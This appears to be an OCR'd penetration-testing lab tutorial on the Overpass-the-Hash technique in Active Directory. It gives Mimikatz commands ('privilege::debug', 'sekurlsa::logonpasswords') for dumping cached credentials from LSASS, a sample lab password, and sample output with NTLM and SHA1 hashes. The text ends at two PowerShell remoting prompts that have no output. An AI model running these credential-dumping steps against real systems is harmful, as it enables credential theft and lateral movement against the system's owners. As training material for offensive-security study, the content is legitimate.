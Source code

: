 ## Overpass-the-Hash (Pass-the-Key)

Overpass-the-Hash allows attackers to "over" abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT), then use the TGT to obtain a Ticket Granting Service (TGS). This technique converts NTLM hash material into Kerberos tickets, avoiding NTLM authentication over the network.

### Overpass-the-Hash Fundamentals

**Technique Overview:**
- **Hash to Ticket Conversion:** Transform NTLM hash into Kerberos TGT
- **Kerberos Authentication:** Use generated TGT for service access
- **Network Stealth:** Avoid NTLM authentication over network
- **Protocol Bridging:** Leverage NTLM material for Kerberos authentication

**Attack Scenario Prerequisites:**
- Compromised workstation or server with cached user credentials
- NTLM hash extracted from LSASS memory
- Target services requiring Kerberos authentication

### Credential Caching Simulation

**Establish User Session Context:**
```cmd
# Right-click Notepad → "Show more options" → "Run as different user"
# Enter credentials: jen / Nexus123!
# This caches jen's credentials on the system
```

**Verify Cached Credentials:**
```mimikatz
# Launch Mimikatz with administrative privileges
privilege::debug

# Extract cached credentials
sekurlsa::logonpasswords
```

**Sample Credential Output:**
```
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname